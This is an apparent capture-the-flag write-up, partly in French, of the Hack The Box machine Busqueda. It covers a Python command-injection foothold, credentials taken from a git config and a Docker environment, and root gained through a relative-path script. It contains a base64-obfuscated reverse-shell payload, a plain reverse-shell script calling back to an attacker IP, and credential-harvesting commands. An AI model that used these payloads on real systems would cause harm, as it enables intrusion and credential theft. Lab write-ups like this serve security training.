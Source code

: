 ```yaml
---
title: HTB | Busqueda
description: Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a Python module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to root, we discover credentials within a Git config file, allowing us to log into a local Gitea service. Additionally, we uncover that a system checkup script can be executed with root privileges by a specific user. By utilizing this script, we enumerate Docker containers that reveal credentials for the administrator user's Gitea account. Further analysis of the system checkup script&amp;amp;amp;#039;s source code in a Git repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with root privileges.
slug: busqueda-htb
date: 2024-12-11 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Busqueda cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Busqueda</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.208</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
nmap -sC -sV -An -p- 10.10.11.208
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
```

## Foothold

### Python Command injection
```bash
## exploit
',__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTAwMSAwPiYx | base64 -d | bash -i')) # junky comment

$ nc -lnvp 9001
svc@busqueda:~$ cat user.txt 
afb3.....29e5
```

### Gitea : svc password
On peut voir que l'application a un .git et est donc un repo git. On recupère le lien vers le serveur gitea.searcher.htb. Dans le fichier de config de .git on trouve des credentials pour le nouveau site web découvert qui tourne sur le port 3000

```bash
svc@busqueda:/var/www/app$ git log
commit 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 (HEAD -> main, origin/main)

Author: administrator <administrator@gitea.searcher.htb> # <---------------- "gitea.searcher.htb"

Date:   Sun Dec 25 12:14:21 2022 +0000

    Initial commit
svc@busqueda:/var/www/app/$ cd .git

## credentials
svc@busqueda:/var/www/app/.git$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
En vérité j'ai trouvé les creds comme ça:
```bash
 grep -rni "gitea"
app/.git/logs/HEAD:1:0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator <administrator@gitea.searcher.htb> 1671970461 +0000	commit (initial): Initial commit
app/.git/logs/refs/heads/main:1:0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator <administrator@gitea.searcher.htb> 1671970461 +0000	commit (initial): Initial commit
app/.git/logs/refs/remotes/origin/main:1:0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator <administrator@gitea.searcher.htb> 1671970461 +0000	update by push

## ICI
app/.git/config:7:	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```
User:
`cody`:`jh1usoih2bkjaspwe92`

On essaye de se connecter en ssh avec cody, puis avec svc et le password de cody, et ca fonctionne !
```bash
ssh svc@10.10.11.208
```


## Root Privilege Escalation
```bash
$ sudo -l
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```
On peut voir que lorsqu'on execute system-checkup on peut voir des containers docker, et envoyer des commande spour obtenir
plus d'informations
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py aaaa
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   23 months ago   Up 7 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   23 months ago   Up 7 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config.Env}}' mysql_db
["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"]
```
On trouve le mot de passe root dans les variables d'environnement du docker mysql.

Ce mot de passe peut etre utilisé pour le compte `administrator` sur le site web gitea.searcher.htb !

On peut voir un nouveau repo git avec le code complet du fameux script system-checkup.py

```bash
svc@busqueda:~$ vim full-checkup.sh
##!/bin/bash
cat /root/root.txt

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
52e6.....04a7

[+] Done !
```

On peut aussi utiliser un reverse shell avec ce code pour `full-checkup.sh`:
```bash
##!/bin/bash
sh -i >& /dev/tcp/10.10.16.10/9001 0>&1
```